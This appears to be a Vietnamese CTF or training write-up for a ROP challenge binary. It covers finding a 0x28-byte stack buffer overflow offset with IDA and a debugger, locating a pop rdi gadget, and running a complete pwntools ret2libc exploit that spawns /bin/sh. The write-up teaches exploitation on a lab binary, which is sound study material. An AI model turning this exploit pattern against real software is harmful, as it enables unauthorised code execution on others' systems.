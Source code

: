 # pwn_training
## ROP

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/d6ae2cd6-0782-4e26-b492-b8c6534e6084)

-Đầu tiên mình sẽ vài IDA để check file

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/8613bfa9-f5d4-4973-8bf3-0f8110538719)

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/e9c0c132-04fe-4088-9f06-3b5ec371a97a)

-Ở đây ta thấy chương trình sẽ setbuf nhận hàm một chuỗi input do người dùng nhập vào.
-Tuy nhiên ta có thể thấy chương trình đang sử dụng printf và scanf, rất có thể sẽ bị bufferoverflow.

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/a45b6087-5ab3-4799-a203-d447cb465acc)

-Hàm Vuld là một hàm để nhận input đầu vào.
-Giờ ta sẽ debug thử chương trình.

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/e0416e80-c734-4f0c-b7b3-171bf3f7e39a)

- ta thấy rsi sẽ chứa địa chỉ của buffer.

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/87484473-f798-4cc3-ab59-e391184a10fc)

- ở đây ta sẽ có được giá trị của vararg: 0x7fffffffd5f0

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/7618cf6a-27cb-43dd-862c-e62f5b8543ee)

- sau khi check info fame ta thấy được rip at 0x7fffffffd618.
- trừ 2 giá trị cho nhau ta biết được buffer là 0x28.
- điều này có nghĩa 40 byte đầu là 40 bytes rác ta sẽ fill hết 40 bytes xong sau đó anh truyền payload cái rop của mình vào là được.

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/6fcc5868-45bf-4af3-a9f5-42049507c2af)


- mình sẽ sử dùng tool ROPgadget để lấy gadget pop rdi; ret trong libc.
  ```ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rdi ; ret"```
- tới đây mình tiến hành tìm các giá trị cần thiết cho payload.
- và đây là payload hoàn chỉnh.

```py
from pwn import *

e = context.binary = ELF("./rop")
r = e.process()
libc = e.libc

r.recvuntil(b'Here is your gift: ')
libc.address = int(r.recvline()[:-1], 16) - libc.sym['puts']

print(hex(libc.address))

rdi = libc.address + 0x000000000002a3e5  # pop rdi ; ret
bin_sh = next(libc.search(b'/bin/sh'))  # rdi -> "/bin/sh"
ret = rdi + 1  # ret ( Make rsp % 0x10 == 0)
system = libc.sym['system']

pl = b'A' * 0x28  # Fill the buffer
pl += p64(rdi) + p64(bin_sh) + p64(ret) + p64(system)

r.sendline(pl)
r.interactive()

```

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/ccf68fc7-34a4-4ad6-8001-3691bbb33191)


